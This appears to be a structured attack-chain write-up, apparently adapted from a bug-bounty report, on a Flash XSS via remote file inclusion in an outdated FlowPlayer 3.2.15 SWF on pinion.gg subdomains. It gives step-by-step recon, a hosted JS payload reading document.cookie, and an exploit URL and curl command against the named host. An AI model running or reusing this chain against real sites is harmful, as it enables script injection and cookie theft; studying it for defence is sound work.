

# Flash XSS via Remote File Inclusion in Outdated FlowPlayer SWF

Multi-stage attack chain demonstrating exploitation of a Flash-based XSS vulnerability in an outdated FlowPlayer SWF file (version 3.2.15), allowing remote file inclusion of arbitrary JavaScript for execution in the subdomain's context. Discovered via reconnaissance on out-of-scope subdomains, the attack involves identifying the vulnerable SWF, hosting malicious JS, and triggering execution via a manipulated config parameter. Impact includes page defacement, open redirects, cross-domain cookie manipulation, or stored XSS if embedded elsewhere.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with Flash enabled for testing)
- Remote hosting service (e.g., GitHub Pages or personal server)

### Target Environment

- Web platform with embedded or accessible Flash SWF files
- Outdated FlowPlayer version 3.2.15 or similar vulnerable to RFI
- No specific ports; accessible via HTTP/HTTPS

### Initial Access Requirements

- Public access to target subdomains
- No credentials needed; reconnaissance-based
- Ability to host external files

## Detailed Attack Procedures

### Step 1: Reconnaissance on Out-of-Scope Subdomains
procedure: [[procedures/Reconnaissance-on-Out-of-Scope-Subdomains]]

**Objective**: Discover resources on target subdomains to identify potential vulnerabilities, such as manifest files referencing outdated components.

**Instructions**: Manually browse or use web tools to examine subdomains of the target domain (e.g., pinion.gg). Focus on out-of-scope assets like templ4d2.pinion.gg. Download and inspect manifest files for embedded resources.

**Expected Output**: Identification of files like motd2.manifest listing SWF resources.

**Success Indicators**:
- Manifest file accessed and parsed
- References to SWF files noted

### Step 2: Identify Vulnerable FlowPlayer SWF
procedure: [[procedures/Identify-Vulnerable-FlowPlayer-SWF]]

**Objective**: Confirm the presence and version of an outdated FlowPlayer SWF known to be vulnerable to XSS via remote file inclusion.

**Instructions**: Access the SWF URL from the manifest (e.g., http://bin.pinion.gg/bin/flowplayer.commercial-3.2.15.swf). Check version details through file properties or known vulnerability databases. Cross-reference with reports on GitHub or CVE for RFI issues in version 3.2.15.

**Expected Output**: Confirmation of version 3.2.15 and vulnerability to config parameter manipulation.

**Success Indicators**:
- SWF version verified as vulnerable
- RFI via 'config' parameter documented

### Step 3: Host Malicious JavaScript File
procedure: [[procedures/Host-Malicious-JavaScript-File]]

**Objective**: Prepare a remote JavaScript file containing XSS payloads to be loaded by the vulnerable SWF.

**Instructions**: Create a file named test.js with payloads like `alert(document.cookie);` and `alert(document.domain);`. Upload to a publicly accessible server (e.g., http://[redacted]/test.js). Ensure the file executes on load.

**Expected Output**: JS file hosted and accessible via direct URL.

**Success Indicators**:
- File loads without errors
- Payloads ready for inclusion

### Step 4: Exploit Flash XSS via Config Parameter
procedure: [[procedures/Exploit-Flash-XSS-via-Config-Parameter]]

**Objective**: Trigger the SWF to load and execute the remote malicious JS, achieving arbitrary code execution in the subdomain context.

**Instructions**: Construct the exploit URL by appending the malicious JS URL to the config parameter: http://bin.pinion.gg/bin/flowplayer.commercial-3.2.15.swf?config=http://[redacted]/test.js. Access the URL in a browser with Flash support to load the SWF and execute the JS.

Use [[commands/access-vulnerable-swf-url]] for verification:

```bash
curl "http://bin.pinion.gg/bin/flowplayer.commercial-3.2.15.swf?config=http://[redacted]/test.js" -v
```

**Expected Output**: SWF loads, remote JS executes, popups display cookie and domain info.

**Success Indicators**:
- JavaScript alerts triggered
- Execution confirmed in subdomain context

## Attack Chain Summary

### Key Achievements

1. Discovered vulnerable SWF through subdomain recon
2. Hosted and loaded malicious JS remotely
3. Achieved XSS execution without direct access
4. Demonstrated potential for defacement or cookie theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
